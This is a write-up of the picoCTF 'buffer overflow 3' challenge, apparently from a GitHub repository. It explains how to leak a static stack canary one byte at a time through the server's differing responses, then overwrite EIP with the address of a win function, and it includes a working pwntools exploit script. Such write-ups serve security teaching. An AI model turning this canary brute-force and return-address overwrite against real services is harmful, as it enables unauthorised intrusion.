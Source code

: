 # buffer overflow 3

**Problem Part**

![Alt text](images/problem.png)

The problem give us 3 thing.

1. Binary file
2. Source
3. Server

First, I tried to connect to the server and observe what does it do.

![Alt text](images/program.png)

The server ask the size of input and take input equal to that size.

I think I can use this input to overflow the buffer. So let's dive into the source code file.

**Source Code Part**

The source code have 3 main interesting function which are

1. win

![Alt text](images/win.png)

This function will be call to print the flag so, we might need to overflow the buffer and control the EIP to point to this function.

2. vuln

![Alt text](images/vuln.png)

This is the main program where the user interact with.

You can see that the program check that the canary is changed or not. If the value of canary is changed, it will not run.

So if we want to overflow the buffer and control EIP, we need to find a way to obtain the value canary.

3. read_canary

![Alt text](images/canary.png)

This function is use to get the canary stored in the directory.


After we observe the source code. Let's find a way to overflow the buffer.

**Testing on the local machine**

I create the file "canary.txt" with text "1234" as canary which is necessary to run the program and try to gdb it.

![Alt text](images/bufsize.png)
![Alt text](images/stack1.png)

From the source code. We have buf with size 64 and canary with length 4.

![Alt text](images/stack.png)

So, the stack might be something like this.

![Alt text](images/gdb2.png)

Then, to overflow, I created the payload with "a"*64 + "1234" + pattern

"a" * 64 is use to fill the variable buf

"1234" is the canary I create

pattern is the pattern text that we will use to find the offset of the EIP register.

![Alt text](images/gdb3.png)

And Boom! We got the offset of EIP register. So now we just need to overflow EIP

![Alt text](images/gdb1.png)

By using the gdb we can get the address of win function which is at 0x08049336

![Alt text](images/localtest.png)

I try to overflow it on the local machine, and it works.

So let's move to the one on the server.

**Find the canary of the server and obtaining the flag**

```python
from pwn import *
import string

offset1 = b"a" * 64
canary = b""
offset2 = b"a" * 16
eip = p32(0x08049336)
```

This is all varible we obtain on the local machine.

The canary of the server is secret, so we need to figure it out by bruteforce it.

Let's go back to the source code first

![Alt text](images/can_check.png)

We know that if the canary is not matched, the program will print **Canary Value Corrupt!** and if the canary is matched, it will print **Ok ... Now Where's the Flag**

And we also know that, the program will ask the size of input before taking the input.

So, we can use this to find the canary letter-by-letter.

```python
# find canary
for i in range(1, 5):
    for c in string.printable:
        r = remote("saturn.picoctf.net", 58405)
        r.recvuntil('>')
        r.sendline(str(64+i).encode()) # size the we want to input
        r.recvuntil('>')
        r.sendline(offset1 + canary + c.encode()) # try to add 1 more character
        output = r.recvall().decode()
        if 'Flag' in output: # if the char c is corret canary
            canary += c.encode()
            break
    print(canary)
```

I do the loop for 4 times to find the canary in each place.

We try to bruteforce all character that is possible of the canary by letter and trigger the correct canary by observing the output of the server.

Then after we got the canary, just craft the payload and obtain the flag.

```python
# send the payload and obtain the flag
r = remote("saturn.picoctf.net", 58405)
r.recvuntil('>')
r.sendline(str(64+4+16+4).encode())
r.recvuntil('>')
r.sendline(offset1+canary+offset2+eip)
r.interactive()
```

![Alt text](images/done.png)

For full code [solve.py](solve.py)